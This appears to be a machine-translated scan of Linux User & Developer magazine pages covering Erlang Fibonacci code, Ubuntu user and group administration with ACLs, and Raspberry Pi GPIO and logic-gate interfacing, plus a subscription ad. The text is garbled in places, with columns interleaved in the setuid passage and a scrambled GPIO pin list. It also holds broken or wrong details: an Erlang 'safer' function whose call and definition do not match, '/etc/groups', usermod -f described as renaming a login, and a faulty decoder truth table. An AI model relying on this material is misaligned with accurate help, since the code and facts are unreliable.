“Mihalis”: 123
```

## 计算斐波那契数

现在你将学习如何以不同于上一期《Linux User and Developer》中看到的另一种方式计算斐波那契数。`fibo1.erl` 中 `fibo()` 函数的代码如下：

```erlang
fibo(N) when N > 0 -> fibVar(N, 0, 1).

fibVar(0, F1, F2) -> F1.
fibVar(N, F1, F2) -> fibVar(N-1, F2, F1 + F2).
```

你可以在图 8 中使用 `timer()` 命令查看其性能。`fibo1.erl` 中 `fibo()` 的实现使用另一个名为 `fibvar()` 的函数，该函数接受三个参数，而不是只有一个参数。然而，由于 `fibvar()` 仅在内部使用，因此它不需要在模块的 `export()` 列表中。`export()` 列表中唯一的函数是 `main()`。



**左侧栏** 使用 `fibo2.erl` 中找到的 `fibo()` 函数及其完整的 Erlang 代码

正如你所见，你只需要以特定方式将 Erlang 代码嵌入文本文件中，并使用 `list_to_integer()` 函数将命令行参数读取为列表。这是一种创建执行特定但相对较小任务的 Erlang 小型程序的非常优雅的方式。下一个教程将讨论许多有趣的内容，包括格式化输出、列表、映射、记录以及 Erlang 进程之间的消息传递。在此之前，请尽可能多地编写 Erlang 代码！

## 无限循环

以下 Erlang 代码，当与负整数的参数结合时，会生成一个持续运行且永不结束的功能：

```erlang
fibo(0) -> 0;
fibo(1) -> 1;
fibo(N) -> fibo(N-1) + fibo(N-2).
```

换句话说，你在定义函数可以接受的参数时必须非常小心，并在必要时添加守卫，以避免此类错误。`fibo()` 更合适且更安全的定义如下：

```erlang
fibo(N) when N > 0 -> fibVar(N).
fibvar(0) -> 0;
fibvar(1) -> 1;
fibvar(N) -> fibvar(N-1) + fibvar(N-2).
```

## 关于斐波那契数的更多信息

虽然 `fibo2.erl` 的 Erlang 代码与你在上一期中看到的代码不同，但在 Erlang 中还有另一种计算斐波那契数的方法，该方法使用列表，以及使用列表实现的 `fibo()` 函数，其性能可以在图 9 中看到。只需记住首次获取代码的是 Erlang 编译器。正如你所见，并非所有斐波那契数的实现都是等同的！


## 教程：用户账户

### 在 Ubuntu 中管理用户账户

了解如何有效管理用户账户、权限、用户组等


**Swayam Prakasha** 拥有计算机工程硕士学位。他在信息技术领域工作多年，专注于操作系统、网络、网络安全、电子商务、互联网服务、LDAP 和 Web 服务器等领域。Swayam 为行业出版物撰写过多篇文章，并在行业会议上发表过自己的论文。可通过 **swayam.prakash8@gmail.com** 联系他。

### 资源

- Unix / Linux 管理
  - http://bit.ly/2goOTVG
- Linux 用户和用户组管理入门指南
  - http://bit.ly/2Mccv8
- 管理 Linux 用户账户安全
  - http://bit.ly/2geSYng
- 管理 Ubuntu Linux 用户和用户组
  - http://bit.ly/2hwo0wu

正如你所料，添加和管理用户是任何 Linux 系统管理员最常见的任务。用户账户有助于在系统使用者和系统中运行的进程之间保持界限。用户组是向系统分配权限的一种手段。不出所料，每个用户都需要拥有独立的用户账户。

拥有一个用户账户提供了一块你可以安全存储文件的区域。添加用户账户的一种方式是使用用户管理器窗口。另一种从 shell 创建新用户非常简单直接的方法是使用 useradd 命令。打开终端窗口后，你只需在命令提示符处调用 useradd 即可。但请注意，为此你需要拥有 root 权限。useradd 命令有一个必填字段——用户的登录名——但你也可以通过各种选项包含一些附加信息。下表描述了 useradd 命令中一些常用选项。

| 选项 | 描述 |
|---|---|
| `-c "comments"` | 提供用户账户的描述 |
| `-d home_dir` | 设置特定账户使用的家目录 |
| `-e expiry_date` | 指定用户账户的过期日期 |
| `-p passwd"` | 为你正在添加的账户输入密码 |
| `-f 1` | 设置密码过期的天数 |
| `-s shell` | 指定此账户使用的命令 shell |

让我们通过一个示例来看看 **useradd** 命令。

```bash
~$ sudo useradd -c "Swayam Prakasha" swayam
```



请注意，我们这里使用了 **sudo**，因为 useradd 需要 root 权限。我们试图为新用户创建一个账户，在这种情况下，是作者本人。用户创建后，下一步是设置初始密码。可以使用 `passwd` 命令来完成，如下所示（示例中包含了作者的 username；这将替换为你要添加的用户的 username）。

```bash
~$ sudo passwd swayam
```

成功执行上述命令后，系统会提示用户输入两次密码。

**useradd** 命令通过读取 **/etc/login.defs** 和 **/etc/default/useradd** 文件来确定新账户的默认值。你可以通过使用任何文本编辑器手动编辑这些文件来修改这些默认值。这里需要指出的是，login.defs 在不同的 Linux 系统中有所不同。**/etc/login.defs** 文件中可配置的一些参数如下所示。

- PASS_MAX_DAYS
- PASS_MIN_DAYS
- PASS_MIN_LEN
- PASS_WARN_AGE

请注意，**/etc/login.defs** 文件中所有未注释的行都包含一个关键字/值对。例如，关键字 **PASS_MIN_LEN** 后面跟着一些空白字符和值 5。这告诉 useradd 命令，用户密码必须至少为五个字符。你可以参考 **/etc/default/useradd** 文件以查看其他默认设置。你也可以通过使用带有 -D 选项的 useradd 命令来查看默认设置。

你还可以使用 -D 选项来更改默认设置。为此，先给出 -D 选项，然后添加你想要设置的默认值。例如，要将默认家目录位置设置为 /home/swayam，你可以使用以下命令。

```bash
~$ useradd -D -b /home/swayam
```

除了设置用户默认值之外，管理员还可以创建默认文件，这些文件会被复制到每个用户的家目录中使用。这些文件通常包括登录脚本和 shell 配置文件。

让我们看看另一个有用的命令——**usermod**——它可以用于修改现有账户的设置。此命令提供了一种改变账户参数的直接方法。许多可用的选项在

pswayam@pswayam-VirtualBox:~$ useradd -D
GROUP=100
HOME=/home
INACTIVE=-1
EXPIRE=
SHELL=/bin/sh
SKEL=/etc/skel
CREATE_MAIL_SPOOL=no
pswayam@pswayam-VirtualBox:~$ 

上方：查看默认设置

usermod 命令中与 useradd 命令中的选项相呼应。你可以与 usermod 命令一起使用的常用选项包括：

- `-c username` - 更改与用户账户相关的描述。
- `-d home_dir` - 更改特定账户使用的家目录。
- `-e expire_date` - 为账户指定新的过期日期。
- `-f login_name` - 更改用户账户的登录名。
- `-s shell` - 指定用于此账户的不同命令 shell。

现在让我们快速查看 usermod 命令的一些示例。

```bash
$ usermod -s /bin/csh [username]
```

这会将指定用户的 shell 更改为 csh。

```bash
$ usermod -Ga accounting [username]
```

-Ga 确保将辅助组添加到特定用户的现有组中。

在用户账户管理中非常实用的另一个命令是 userdel。此命令可用于删除用户。

```bash
$ userdel -r [username]
```

当执行上述命令时，首先会从 /etc/passwd 文件中移除用户。由于我们使用了 -r 选项，因此也会删除用户的家目录。这里我们需要记住的是，仅删除用户账户并不会改变用户遗留在系统中的任何文件（除了使用 -r 选项的情况）。

现在该了解更多关于 Ubuntu 系统中的用户组账户了。如果我们需与多个用户共享一组文件，用户组账户的概念就会派上用场。你可以创建一个用户组，并将该组与一组文件关联。请注意，root 用户可以将用户分配到用户组，以便他们可以根据用户组的权限访问文件。每个用户都会被分配到一个主要用户组。默认情况下，该用户组是一个与用户同名 的新用户组。你可以通过 /etc/passwd 文件中每个条目的第三个字段中的数字轻松识别主要用户组。

Linux 通常将所有用户的列表存储在一个名为 /etc/groups 的文件中。你可以在终端中运行命令来查看和编辑系统中的用户和用户组。

```bash
$ sudo vim /etc/groups
```

让我们看看如何创建用户组账户。作为 root 用户，你可以使用命令行中的 groupadd 命令创建新用户组。此外，请注意，当创建用户账户时，用户组会自动创建。让我们看几个例子：

```bash
$ groupadd mars
```

这里，创建了一个名为 Mars 的用户组，使用下一个可用的组 ID。

```bash
$ groupadd -g 14235 venus
```

创建了一个名为 Venus 的用户组，组 ID 为 14235。

> **用户账户有助于在系统使用者和系统中运行的进程之间保持界限**


www.linuxuser.co.uk

53

## 教程

## 用户账户

如果你有兴趣在稍后的时间点更改用户组，你可以使用 `groupmod` 命令。

```bash
~$ groupmod -g 300 mars
```

Mars 的组 ID 被更改为 300。

```bash
~$ groupmod -n stars venus
```

名称 Venus 被更改为 Stars。
让我们将注意力转向访问控制列表 (ACL)。
借助 ACL，一个用户允许其他用户读取、写入和执行文件和目录，而不需要 root 用户更改分配给他们的用户或用户组。
关于 ACL，有几件重要的事情需要了解：

- ACL 需要在文件系统挂载时启用
- 要为文件添加 ACL，请使用 `setfacl` 命令
- 要查看文件上设置的 ACL，请使用 `getfacl` 命令
- 要为任何文件或目录设置 ACL，你需要是该文件或目录的实际所有者

让我们详细看看 `setfacl` 命令。
系统管理员可以使用此命令来修改 ACL 权限（使用 `-m` 选项）或移除 ACL 权限（使用 `-x` 选项）。

下方：查看用户和用户组

```bash
~$ setfacl -m u:[username]: rwx file_name
```



在此命令中，首先我们使用了 `modify (-m)` 选项，后面跟着字母 `u` - 这表示我们正在为特定用户设置 ACL 权限。然后，我们在冒号后指定了用户名。在另一个冒号之后，是我们想要分配的权限。我们可以将读取 (`r`)、写入 (`w`) 和/或执行 (`x`) 权限分配给用户或用户组。
关于 ACL 我们需要理解的另一个重要方面与默认 ACL 的设置有关。在目录上设置默认 ACL 可使你的 ACL 被继承。换句话说，当我们在该目录中创建新文件和目录时，它们会被分配相同的 ACL。为了将用户或用户组 ACL 权限设置为默认值，你只需在用户或用户组标识后添加 `d:` 即可。你可以通过创建子目录并运行 `getfacl` 命令来确保默认 ACL 有效。之后，你会看到为用户、用户组等添加了默认行，这些实际上是从目录的 ACL 继承而来。
接下来，让我们看看如何启用 ACL。我们在安装后创建的基本 Linux 文件系统仅为每个文件和目录分配一个用户和用户组，因此默认情况下不包括 ACL 支持。为了添加 ACL 支持，我们需要在挂载文件系统时添加 `acl mount` 选项。这可以通过多种方式完成。你可以在系统启动时自动挂载文件系统的 `/etc/fstab` 文件中的那一行第四个字段中添加 `acl` 选项，或者你可以在使用 `mount` 命令手动挂载文件系统时，在 `mount` 命令中添加 `acl` 选项。

| /dev/sdcl | /var/extra_stuff |
|----------|------------------|
| ext4 | acl 1 2 |

这里，我们试图将位于 `/dev/sdcl` 设备上的 ext4 文件系统挂载到 `/var/extra_stuff` 目录。
注意，我们在第四个字段中添加了 `acl`，而不是默认的条目。如果该字段中已经设置了其他选项，我们需要在最后一个选项后添加逗号，然后再添加 `acl`。通过这个 `acl` 字段，下一次挂载文件系统时，ACL 将被启用。
对于第二种选项，通过手动挂载文件系统并使用 `mount` 的 `acl` 选项来添加 ACL 支持。可以使用类似于以下命令来完成：

```bash
~$ mount -o acl /dev/sdcl /var/extra_stuff
```

这里需要注意的是，`mount` 命令只是临时挂载文件系统。系统启动时，文件系统不会再次挂载。因此，有必要在 `/etc/fstab` 文件中有一个条目。
让我们看看如何为用户添加目录，以便他们彼此协作。当我们谈论权限时，我们知道用户、用户组和其他用户有读、写和执行位。除了这些位之外，还可以使用 `chmod` 命令设置特殊的文件权限位。你需要用于创建协作目录的位是 set group ID 位和 sticky 位。这些位有特定的数值：


## SETFACL(1) 访问控制列表 SETFACL(1)

### 名称
setfacl - 设置文件访问控制列表

### 概要
setfacl [-bknndRLPVh] [~-M~-X] acl_spec [~-M~-X] acl_file] file ...
setfacl --restore=file

### 描述
此实用程序用于设置文件和目录的访问控制列表 (ACL)。在命令行中，一系列命令后面跟着一系列文件（这些文件后面又可以跟着另一系列命令，……）。

选项 -M 和 -X 期望在命令行上提供 ACL。多个 ACL 条目由逗号字符（','）分隔。选项 -M 和 -X 从文件或标准输入读取 ACL。ACL 条目的格式在“ACL 条目”章节中有描述。

--set 和 --set-file 选项设置文件或目录的 ACL。先前的 ACL 会被替换。此操作的 ACL 条目必须


## 实施密码策略

随着我们更多重用的用户，实施并强制执行合理的密码策略始终至关重要。这可以通过加载名为 pam_cracklib 的 Linux PAM 模块来实现。在 Windows 模块中，你可以防止使用弱密码。

| 名称 | 数值 |
|:-----|:------------|
| 设置用户 ID 位 | 4 |
| 设置组 ID 位 | 2 |
| 粘滞位 | 1 |

- 上方内容
- setfacl 命令的详细信息

你可以使用设置组 ID 位来创建组的协作目录。设置 UID（用户 ID）和设置 GID（组 ID）位通常用于特殊的可执行文件，允许以不同方式运行命令。在正常情况下，

决定该命令访问机器上资源的权限的命令。例如，由 root 拥有的设置 UID 命令将以 root 权限运行。验证用户的默认方式是将用户信息与 /etc/passwd 文件的内容以及 /etc/shadow 文件中的密码进行核对。但还有其他方法。在大型企业中，将用户帐户信息存储在集中式身份验证服务器上是很常见的做法。这种设置的优势在于，当我们安装新的 Linux 系统时，我们无需

> “当有人尝试登录时，我们可以让 Linux 系统查询身份验证服务器”

当用户运行命令时，该命令以该用户的权限运行。例如，如果我们以用户 Jo 的身份运行 **cat** 命令，该 cat 命令实例将拥有用户 Jo 能够读写文件的权限。设置了 UID 或 GID 位的命令有所不同。它由分配给命令的所有者和组决定

无需向该系统添加用户帐户。相反，当有人尝试登录时，我们可以让 Linux 系统查询身份验证服务器。对于使用集中式身份验证服务器验证用户，我们需要提供帐户信息，包括用户名、用户/组 ID、默认 shell 以及身份验证方法。通过启用目录的粘滞位来创建受限删除目录。在正常情况下，如果文件或目录对某用户开放了写权限，那么该用户可以删除该文件或目录。但就受限删除目录而言，除非你是 root 用户或目录的所有者，否则你将无法删除其他用户的文件。

## 7 期免费

订阅时*

**北美**读者的特别优惠


面向专业人士和开发者的开源权威


# 为**美国**专属优惠报价！

订购热线 **+44 (0)1795 418661**

在线访问 **www.imaginesubs.co.uk/lud**

*条款和细则 这是一个美国订阅优惠。你实际上将被收取 30 英镑的年度订阅费。这相当于撰写时 105 英镑。汇率可能会有所变化。*免费期* 指的是美国报亭价格为 13 期共 220.87 美元（每期 16.99 美元），而订阅价格为 105 英镑。你的订阅从下一期可用期刊开始，为期 13 期。本优惠有效期至 2017 年 4 月 30 日。

## Linux User & Developer

GNUN 一代人的必备杂志

## 锁定你的系统

入侵者检测 • 威胁分析 • 恶意软件筛选

使用 Munin 监控服务器

理解利用方式

给你的 Pi 提速

揭示最佳浏览器

- 使用 Erlang 中的函数
- 制作 Pi 游戏

## 面向编码者与制作人的必备指南

## 实用树莓派

58 “通过设计自己的电子电路，超越使用现成的接口如 HAT，甚至超越构建他人设计的电路”



## 目录

- 68 树莓派空气鼓组套件
- 70 使用 Sense HAT 制作鸡蛋掉落游戏
- 76 制作基于 Pi 的证物保护官（Warrant Canary）
- 78 一个树莓派相框

## # 秘密

of

## PI 接口

*学习如何设计简单的电子电路，将你的树莓派与真实世界设备对接*


使用树莓派等单板计算机来控制真实世界设备需要两种截然不同的技能。首先，你需要能够编写代码；其次，你需要能够将 Pi 与外部设备进行对接。在这里，我们探讨第二个方面：特别是如何通过设计自己的电子电路，超越使用现成的接口如 HAT，甚至超越构建他人设计的电路。使用这份动手指南，你将很快能够连接开关、LED 等更多设备。我们将提供电路原理图，但如果你不熟悉它们，请参见我们早期的指南（Linux User & Developer 169），其中解释了如何将电路原理图转化为实际工作的电路。

我们的主要重点是与树莓派的接口，但其中大部分内容也可应用于其他小型计算机，如 Arduino，这些同样常用于控制应用。

# 理解 PI 的
# GPIO 硬件

发现 Pi 的 GPIO 硬件——它通往真实世界的门户


即使你从未将外部设备连接到你的树莓派，你也不免会注意到电路板边缘的两排 40 个引脚（早期的 Pi 是 26 个引脚）。这就是 GPIO 接口，也称为通用输入/输出连接器，它为与真实世界设备对接提供了手段。因此，在开始思考设计用于 Pi 接口的电路之前，理解 GPIO 硬件的基础知识至关重要。

### 电源和接地引脚

尽管被称为 GPIO 接口，但并非所有引脚都连接到 GPIO 硬件。其他一些引脚提供电源和接地连接，这些也被连接到接口的硬件使用。

Pi 的 GPIO 接口有八个接地引脚（GND），你可以从文档中识别出来。接地相当于电源的负极，通常被称为 0V（即零伏特）。

GPIO 接口还有四个电源引脚：两个提供 +3.3V，两个提供 +5V。使用接地和电源引脚，你可以为你的外部接口电路从 Pi 获取电力，因此你不需要单独的电源。

### GPIO 引脚

有两个例外，GPIO 接口上其余的引脚都是 GPIO 引脚，尽管其中一些还具有我们在这里不会深入探讨的次要功能。

正如短语“通用输入/输出”所暗示的，这些引脚可以在软件中配置为输入或输出。当编程为输入时，这些引脚例如可以连接到开关，软件将能够读取开关是断开还是闭合，即关或开。或者，当编程为输出时，这些引脚可以连接到 LED，软件将能够将其打开或关闭。

### 最大额定值

树莓派的 GPIO 由 3.3V 电源供电，因此你不应该向任何引脚施加更高的电压。这样做可能会损坏 Pi。然而，存在一些与需要更高电压的设备进行对接的方法，详见后文的“安全地超越极限”部分（第 68 页）。事实上，甚至存在与市电供电设备进行对接的方法，这也是我们将要讨论的内容。

最大电压并非超越 GPIO 最大额定值的唯一方式；你还应遵守其 16mA 的最大电流限制（所有 GPIO 引脚总计 50mA）。在实践中，这意味着你可以轻松驱动 LED，因为它不需要太多电流，但驱动电动机等大功率设备需要更多的关注。同样，这在“安全地超越极限”部分中也有涵盖。

GPIO 引脚有两种编号方案。首先是物理编号。这反映了每个引脚在接口上的位置，因此从一端的 1 和 2 到另一端的 39 和 40 运行。然后，对于实际的 GPIO 引脚（相对于电源），还有 GPIO 编号。你可以选择在软件中使用任何一种方案。



5v Pwr, GND, GPIO 29, GND, UARTO TX, GND, GPIO 17, GPIO 17, GND, GPIO 22, GND, GPIO 27, GND, GPIO 23, GND, GPIO 28, GND, SPI0 MISO, GND, SPI0 SCLK, GND, SPI0 MISO, GND, Reserved, GPIO 3, GND, GPIO 5, GND, GPIO 12, GND, GPIO 13, GND, GPIO 19, GND, GPIO 16, GND, GPIO 20, GND, GPIO 21, GND


## 特性

### 树莓派接口连接内幕

#### 如何将开关和 LED 连接到树莓派

将开关或 LED 连接到 GPIO 排针其实非常简单。


### 01. 连接开关

将开关接入树莓派的第一步是将开关的两个端子之一连接到一个 GPIO 引脚（该引脚将在软件中配置为输入），并将其另一个端子连接到 0V（GND）。完成此操作后，GPIO 引脚将连接到 0V。无论开关处于何种闭合状态——即对于按钮是按下状态，对于机械锁定的拨动开关是“开”状态——软件都会将其视为逻辑 0。

### 02. 添加上拉电阻

虽然连接到开关和 0V 的 GPIO 引脚在开关闭合时处于逻辑 0 状态，但在开关断开时会处于“浮空”状态。换句话说，此时无法确定它被识别为 0 还是 1。为了解决这个问题，必须通过一个电阻将其连接到 +3.3V，该电阻被称为上拉电阻。现在，当开关断开时，GPIO 引脚将处于逻辑 1 状态。电阻值并不关键，但 10k 是一个不错的选择。


### 03. 使用内部上拉

如果你正在将开关连接到其他类型的单板计算机，或者通过某种逻辑电路连接到树莓派的 GPIO，那么外部上拉电阻是唯一解决方案。然而，如果你直接连接到 GPIO 引脚，可以选择启用树莓派电路中的内部上拉电阻。这里复现的代码片段展示了如何使用 RPi.GPIO Python 库来实现这一点。后续步骤中的电路图假设使用外部上拉电阻，但如果你使用的是内部上拉电阻，只需省略 10k 电阻即可。

```python
GPIO.setup(2, GPIO.IN, pull_up_down=GPIO.PUD_UP)  # 设置 GPIO 2 为带内部上拉的输入
```

### 04. 限制电流

由于 GPIO 引脚是双向的，如果连接了开关的引脚被错误地配置为输出并设置为逻辑 1，就会存在潜在问题。这会在引脚上施加 3.3V，如果此时开关闭合，它将直接连接到 0V。这会导致大电流流动，并可能损坏树莓派。在开关前串联一个电阻可以防止这种情况，推荐值为 1k。串联电阻也是下一步电路中不可或缺的组成部分，因此如果你想添加去抖动电路，请不要省略它。


### 05. 开关去抖动

操作开关时，触点通常在短时间内快速开合几次。这被称为抖动，可能会引起问题。例如，按下按钮本应点亮或关闭 LED。现在，如果 LED 是关闭的，你按下并松开按钮，但开关状态从闭合-闭合-断开（而不是闭合-断开）变化，LED 会非常快速地亮灭一次，但看起来好像什么都没发生。添加电容可以解决此问题——如果你使用 1k 电流限制电阻，典型值为 100n。或者，可以在 RPi.GPIO 库中选择软件去抖动。


### 06. 使用多路开关

多路旋转开关的处理方式与单路开关完全相同，不同之处在于它连接到多个 GPIO 引脚，并且需要为每个引脚使用前面描述的接口电路。电路图展示了四路开关的实现方式。图中未包含去抖动电容，因为由于多路开关或拨动开关具有机械锁定特性，抖动问题不像按钮那么严重。

光特性及电气特性（Ta = 25°C，除非另有说明）

| 参数 | 测试条件 | 符号 | 最小值 | 典型值 | 最大值 | 单位 |
| :--- | :--- | :--- | :--- | :--- | :--- | :--- |
| 正向电压 | IF = 10mA | VF | 1.8 | 2.0 | 2.2 | V |
| | IF = 30mA | | 2.0 | 2.2 | 2.4 | V |
| 平均电流 | | Ifav | | 50 | | mA |
| 反向电压 | VR = 5V | VR | - | | 4.75 | V |
| 反向漏电流 | VR = 5V, IF = 5mA | IR | | 30 | 40 | uA |
| 外部尺寸 | 10.0 x 3.8 x 1.5 | | | | | mm |

### 07. 理解 LED 基础知识

LED（发光二极管）是一种在电流通过时产生光的元件。它是一种极性器件，因此其阳极必须始终连接到正电源，阴极连接到负电源。LED 的一个基本特性是其正向电压，通常根据颜色和类型在 1.8V 到 3.3V 之间。LED 需要此电压才能点亮。同样重要的是推荐电流，其亮度等指标也是在此电流下标称的。所有这些参数都显示在 LED 的数据表中。

### 08. 限制电流

从 GPIO 引脚点亮 LED 涉及将引脚配置为输出，然后输出逻辑 1。这会在引脚上施加 3.3V，但这通常会超过 LED 的正向电压，从而导致其最大电流被超过，烧毁 LED 并可能损坏树莓派。添加串联电阻以降低多余电压可以防止这种情况。电阻必须降低 3.3V 与 LED 正向电压之间的差值。其值根据欧姆定律计算，如下一步所述。


> **电阻和电容的数值**
>
> 通常，电阻和电容的数值并不关键，可以使用典型值。然而，在接入 LED 时，你**必须**计算出电流限制电阻的值。你经常会发现，无法买到你计算出的数值的电阻，因为电阻（和电容）只有某些优选值。
>
> 在常见的 E-12 系列中，这些数值为 1, 1.0, 1.2, 1.5, 1.8, 2.2, 2.7, 3.3, 3.9, 4.7, 5.6, 6.8 和 8.2。然而，你可能会遇到来自其他系列的额外数值。这些数值可以乘以 10 的幂。因此，对于电阻，除了 4.7 之外，你还会发现 47, 470, 4.7k, 47k, 470k 和 4.7M。
>
> 如果电阻没有你计算出的数值，一般原则是安全第一。对于 LED 电流限制电阻，这意味着选择最接近的更大数值。

### 09. 使用欧姆定律

首先，你需要确定 LED 的驱动电流。这必须小于 LED 的推荐电流，且小于 GPIO 引脚的最大值 16mA。此外，所有 GPIO 引脚汲取的总电流必须小于 50mA。即使推荐电流更大，10mA 通常也能提供足够的光。欧姆定律概括为 V = I R。可以重新排列为 R = V / I 来计算电阻值 R，其中 V 是需要降低的电压（即 3.3V 减去 LED 的正向电压），I 是驱动电流。例如，2.0V 的正向电压和 10mA（0.01A）的电流将需要 (3.3 – 2.0) / 0.01 = 130 欧姆的值。


### 10. 白色和蓝色 LED

某些 LED——主要是蓝色、白色和“纯绿色”——的正向电压高于 3.3V，因此无法直接从 GPIO 引脚驱动。即使标称值为 3.3V，直接从 GPIO 引脚驱动也是不安全或不可靠的。解决方案是从更高电压驱动，如后文“安全地超越限制”部分（第 66 页）所述。

## 特性

### 树莓派接口连接内幕

### 逻辑电路详解

理解逻辑电路以在接口中添加额外功能。

由于树莓派中的处理器可以执行任何难以想象的逻辑操作，人们可能会认为使用外部逻辑电路没有益处。如果树莓派对你的应用有足够多的 GPIO 引脚，这确实是正确的；但如果接近极限，通过使用外部硬件逻辑，你可以减少所需的引脚数量。我们的分步指南提供了一些如何做此操作的示例；这里我们提供逻辑电路的介绍。

#### 逻辑电平

逻辑组件基于两个电压运行，代表二进制值 0 和 1，尽管对于某些应用，将它们分别视为关和开可能更合适。对于树莓派的 GPIO 引脚，0 由 0V（GND）表示，而 1 由 3.3V 表示。对于使用 5V 供电的其他单板计算机，0 仍由 0V 表示，但 1 由 5V 表示。你应该选择与计算机供电电压匹配的逻辑芯片系列（见“IC 逻辑系列”）。

#### 逆变器

最简单的逻辑组件是逆变器，它有一个输入和一个输出 - 参见所有逻辑门符号的图表。顾名思义，其功能是反转输入值：因此，如果输入是 0，则输出是 1；如果输入是 1，则输出是 0。
逻辑组件的操作通常由真值表定义，虽然在这个简单情况下几乎不需要，但这里展示了逆变器的真值表：

| 输入 | 输出 |
|:---:|:---:|
| 0 | 1 |
| 1 | 0 |

#### 与门和或门

继逆变器之后，是一组被称为门的逻辑组件。门可以有任何数量的输入（尽管两个最常见），和一个输出。
为了开始，我们看看 2 输入与门，其功能可以概括如下：如果输入 1 为 1 且输入 2 为 1，则输出为 1；输入的其他所有组合都导致输出为 0。使用类似的陈述，我们可以将或门的功能概括如下：如果输入 1 为 1 或输入 2 为 1，则输出为 1；输入的其他所有组合（实际上只有一种其他组合）都导致输出为 0。2 输入与门和 2 输入或门的真值表如下所示。

| 输入 1 | 输入 2 | 输出 |
|:---:|:---:|:---:|
| 0 | 0 | 0 |
| 0 | 1 | 0 |
| 1 | 0 | 0 |
| 1 | 1 | 1 |

| 输入 1 | 输入 2 | 输出 |
|:---:|:---:|:---:|
| 0 | 0 | 0 |
| 0 | 1 | 1 |
| 1 | 0 | 1 |
| 1 | 1 | 1 |

#### 与非门、或非门和异或门

与非门和或非门的短语起初听起来可能很奇怪。然而，如果我们指出 NAND 意味着 Not AND，NOR 意味着 Not OR，那么各部分就开始拼合在一起了。
与非门实际上是一个与非门输出连接了逆变器，其真值表与与门相同，只是输出列中的 0 变为 1，反之亦然。类似地，或非门是一个或门输出连接了逆变器，因此其真值表与或门相同，只是输出列中的 0 和 1 互换。
剩余的一种门类型是异或门，即 eXclusive OR gate，其真值表如下所示。

| 输入 1 | 输入 2 | 输出 |
|:---:|:---:|:---:|
| 0 | 0 | 0 |
| 0 | 1 | 1 |
| 1 | 0 | 1 |
| 1 | 1 | 0 |

你会注意到它和或门的真值表相同，但不同之处在于当两个输入都为 1 时其输出为 0。另一种看待其功能的方式是，当输入不同（一个为 1，一个为 0）时输出为 1，否则输出为 0。


## IC 逻辑系列


最常见的逻辑器件类型之一是 7400 系列。它们的元件编号格式为 `74<fam>ily<id>`，其中 `fam` 是 7400 系列的家族，`<id>` 是定义功能的数字。开头和结尾可能还有其他字母，但你可以忽略它们。例如，SH74HLS00N 是一款低功耗肖特基家族（LS）器件，其功能（00）是一个四路 2 输入与非门（即每个芯片包含四个 2 输入与非门）。74 系列有多种家族，其中大多数不适合直接连接到 Pi 的 GPIO 引脚。有些器件无法在 3.3V 输入和输出下工作，而另一些仅提供表面封装，这对于业余爱好者来说接线比较困难。我们推荐使用 74HC 家族，它与 3.3V 兼容，并且提供通孔封装。

## 其他逻辑功能

反相器及各种类型的门电路是最基本的逻辑组件，但它们只是冰山一角。市场上有数十种其他组件，尽管实际上，它们几乎所有的功能都可以通过基本逻辑组件的某种组合来复制。大多数这些组件的符号只是矩形框，并标注了输入和输出，因此你需要查阅其数据手册中的真值表来理解其功能。

由于我们将在后续的分步教程中使用它，我们将查看一个名为 2 到 4 译码器的示例。74HC139 芯片中包含的两个 2 到 4 译码器之一的真值表如下（X 表示“0 或 1”）。

| E | A1 | A0 | Y3 | Y2 | Y1 | Y0 |
|---|----|----|----|----|----|----|
| 1 | X  | X  | 1  | 1  | 1  | 1  |
| 0 | X  | X  | 1  | 1  | 1  | 0  |
| 0 | 0  | 1  | 1  | 1  | 0  | 1  |
| 0 | 1  | 1  | 1  | 0  | 1  | 1  |
| 0 | 1  | 1  | 0  | 1  | 1  | 0  |

首先，该器件有一个所谓的使能输入端 E。只有当此输入端为逻辑 0 时，器件才处于使能状态。如果器件未使能，其所有输出都将是高电平。一旦使能，根据输入 A0 和 A1 上的二进制数值，四个输出中的一个将变为逻辑 0。因此，例如，输入为 1 和 0（二进制 10 = 十进制 2）将导致输出 Y2 为逻辑 0。

## 使用逻辑门以减少 GPIO 引脚的使用

逻辑电路可以让你将更多的设备连接到 Pi 有限的 GPIO 引脚上。




### 01 使用逻辑仿真器

在查看一些逻辑电路示例之前，这里有一个提示，可以帮助你在不接线任何东西的情况下检查你的想法。如果你不确定需要哪种逻辑器件，这可以在订购组件之前让你确定下来。秘诀是使用逻辑仿真器，有很多可供选择，有些在本地各种操作系统上运行，有些则在线运行。在这里，我们正在 logic.ly/demo 上测试步骤 6 中的电路。

### 02 使用 2 到 4 译码器

